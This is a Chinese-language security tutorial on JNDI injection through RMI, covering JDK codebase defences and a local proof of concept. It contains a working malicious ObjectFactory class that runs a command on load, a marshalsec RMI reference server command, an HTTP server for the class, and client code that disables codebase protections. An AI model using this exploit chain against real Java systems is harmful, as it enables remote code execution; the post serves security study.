


JNDI注入

文章目录
关于JNDI
JNDI（Java Naming and Directory Interface）是一组应用程序接口，为开发人员查找和访问各种资源提供了统一的通用接口，可以用来定位用户、网络、机器、对象和服务等各种资源，比如可以利用JNDI定位一个远程Java对象或者一个数据库服务等。JNDI底层支持RMI远程对象，RMI注册的服务可以通过JNDI接口来访问和调用；
JNDI接口在初始化时，可以将RMI URL作为参数传入，而JNDI注入就出现在 客户端 的 lookup() 函数中，如果 lookup() 的参数可控就可能被攻击；
攻击前准备
- JDK 6u45、7u21之后：java.rmi.server.useCodebaseOnly的默认值被设置为true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前JVM的java.rmi.server.codebase指定路径加载类文件。使用这个属性来防止客户端VM从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。
- JDK 6u141、7u131、8u121之后：增加了com.sun.jndi.rmi.object.trustURLCodebase选项，默认为false，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞，但依然可以通过指定URI为LDAP协议来进行JNDI注入攻击。
- JDK 6u211、7u201、8u191之后：增加了com.sun.jndi.ldap.object.trustURLCodebase选项，默认为false，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了。
RMI攻击方式
此种攻击方式主要是通过RMI进行JNDI注入，攻击者可以通过构造一个而已的RMI服务向客户端（靶机）返回一个恶意的 Referer 对象，然后客户端（靶机）会通过这个恶意的 Referer 对象加载其中指定的 Factory 并实例化，如果我们精心构造一个恶意的 Factory ，那么就可以导致客户端（靶机）执行任意恶意代码。
javax.naming.Reference 通过如下方式指定被加载的 Factory ：
1
|
Reference reference = new Reference("TargetClassName", "FactoryName", "your_eval_urlcodebase"); |
例如如下是一个恶意的 Factory 对象类定义，注意需要实现 ObjectFactory 接口，且不能指定 package ：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 |
/**
* @author : p1n93r
* @date : 2021/7/5 0:18
*/
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.IOException;
import java.util.Hashtable;
public class Exploit implements ObjectFactory {
static {
exec("calc");
}
@Override
public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
return null;
}
public static String exec(String cmd) {
try {
Runtime.getRuntime().exec(cmd);
} catch (IOException e) {
e.printStackTrace();
}
return null;
}
public static void main(String[] args) {
exec("calc");
}
} |
将此类编译后，得到 Exploit.class 文件，然后通过 marshallsec 开启一个 RMI Referer 服务：
1
|
java -cp marshalsec.jar marshalsec.jndi.RMIRefServer "http://127.0.0.1:4578/#Exploit" 1088 |
同时起一个HTTP服务用于返回恶意的 Factory 对象（需要将前面得到的Exploit.class放在WEB根目录下）：
1 2 3 |
python3 -m http.server 4578 // or python2 -m SimpleHTTPServer 4578 |
然后通过操作客户端的 lookup() 函数的入参为我们的恶意RMI服务地址：
1 2 3 4 5 6 7 8 |
// 为了方便调试，直接开启urlcodebase
System.setProperty("java.rmi.server.useCodebaseOnly", "false");
System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
// 准备进行RMI方式的JNDI注入了
String uri = "rmi://127.0.0.1:1088/Exploit";
Context ctx = new InitialContext();
ctx.lookup(uri); |
如下图所示，成功弹出计算器：

以下给出调用栈：

参考资料
文章作者 P1n93r
上次更新 2021-07-04